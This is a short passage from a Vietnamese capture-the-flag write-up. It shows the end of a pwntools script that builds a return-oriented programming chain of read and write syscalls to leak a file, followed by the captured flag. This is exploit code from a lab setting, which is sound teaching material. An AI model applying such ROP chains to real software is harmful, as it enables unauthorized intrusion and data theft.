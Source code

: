 ```python
	pop_rsi,0x00000000404a00, #read write section
	pop_rdx_r12,100,0,
	pop_rdi,3, #rdi = file descripter
	syscall_ret,

	pop_rax,1,
	pop_rsi,0x00000000404a00,#read write section
	pop_rdi,1,
	syscall_ret
	)

edit(1,ROP)
p.sendlineafter(b"Option: ",b"4") # trigger main to return 
```
Chạy chương trình ta có flag :

![image](https://github.com/DoQuangPhu/CTF_writeups/assets/93699926/33073fff-5427-41c6-97c6-79c7689c14b0)

flag: `grey{gr00m1ng_4nd_sc4nn1ng_th3_b00ks!!}`








